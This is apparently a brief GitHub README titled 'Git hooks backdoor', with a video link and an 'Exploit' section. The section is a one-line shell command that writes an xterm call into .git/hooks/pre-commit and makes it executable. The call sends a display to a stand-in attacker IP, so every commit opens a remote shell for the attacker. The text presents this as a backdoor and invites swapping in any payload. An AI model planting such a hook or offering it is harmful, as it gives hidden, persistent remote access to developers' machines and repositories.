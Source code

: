 Git hooks "backdoor"
======================

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=rCVmWUf8x1E" target="_blank"><img src="http://img.youtube.com/vi/rCVmWUf8x1E/0.jpg" alt="Profit with Git hooks!" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo "xterm -display <attacker IP>:1 &" > .git/hooks/pre-commit; chmod +x .git/hooks/pre-commit

```

You can use whatever payload you want to exploit, using lame xterm to visually show off payload execution reversing a shell to attacker.

